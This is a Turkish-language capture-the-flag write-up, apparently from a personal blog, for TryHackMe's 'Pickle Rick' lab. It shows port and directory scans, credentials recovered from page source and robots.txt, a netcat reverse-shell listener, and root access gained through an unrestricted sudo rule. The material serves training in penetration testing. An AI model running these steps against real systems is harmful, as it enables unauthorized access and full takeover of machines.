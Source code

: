 ```yaml
---
title: 'TryHackMe | Pickle Rick WriteUp'
author: appdone
categories: [TryHackMe]
tags: [command execution, sudo]
render_with_liquid: false
---
```


Bu yazımda, TryHackMe platformunda yer alan "Pickle Rick" isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sV -sC -T4 10.10.164.239
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 26:d5:4a:c3:63:84:c5:38:ed:e2:5c:91:76:91:55:5c (RSA)
|   256 d1:01:87:e1:31:38:f3:9b:0f:a1:25:32:53:3a:80:2b (ECDSA)
|_  256 15:eb:64:9f:c4:0f:28:90:09:05:84:cd:e8:9a:0d:a0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 (SSH) ve 80 (HTTP) numaralı portların açık olduğunu öğrendik. Çalışan servislerin sürümlerinden kaynaklanan herhangi bir zafiyet bulunmadığından doğrudan HTTP servisine yöneliyorum.

```html
  <!--
    Note to self, remember username!
    Username: ********
  -->
```

Ana sayfanın kaynak kodunda bir kullanıcı adı buldum. Kayıt ettikten sonra dirsearch ile bir dosya/dizin taraması yapmaya karar verdim.

```console
[08:53:12] 200 -  589B  - /assets/
[08:53:41] 200 -  455B  - /login.php
[08:54:02] 200 -   17B  - /robots.txt
```

Tarama sonucunda bir kullanıcı giriş sayfası olduğunu öğrendik. Daha önce bir kullanıcı adı bulmuştuk parolası ise robots.txt dosyasında bulunuyor.

Giriş yaptıktan sonra sistemde komutlar çalıştırabileceğimiz bir panel ile karşılaşıyoruz. netcat aracını kullanarak bir reverse shell alacağım.

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.164.239] 50094
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bağlantıyı elde ettikten sonra bulduğumuz dizinde ilk malzemeyi buluyoruz. Aslında bu görev pekte önemli değil, ben sadece yetki yükseltmek istiyorum. "sudo -l" komutunu kullandığımızda herhangi bir kullanıcının yetkisinde istediğimiz komutu çalıştırabileceğimizi görüyoruz.

```console
www-data@ip-10-10-164-239:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-164-239:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-164-239:
    (ALL) NOPASSWD: ALL
```

root kullanıcısı olarak bash'e geçiş yapıyor, böylece yetki yükseltmiş oluyoruz.
```console
www-data@ip-10-10-164-239:/var/www/html$ sudo bash
root@ip-10-10-164-239:/var/www/html# cd /root
root@ip-10-10-164-239:~# ls
3rd.txt  snap
```
